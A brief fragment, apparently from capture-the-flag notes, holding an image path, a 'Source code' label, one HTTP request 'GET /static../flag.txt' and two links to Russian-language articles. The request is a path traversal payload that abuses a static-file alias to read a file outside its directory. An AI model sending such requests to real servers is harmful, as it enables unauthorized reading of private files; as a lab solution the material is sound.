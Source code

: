 GET /static../flag.txt

https://www.opennet.ru/opennews/art.shtml?num=59383
https://habr.com/ru/articles/745718/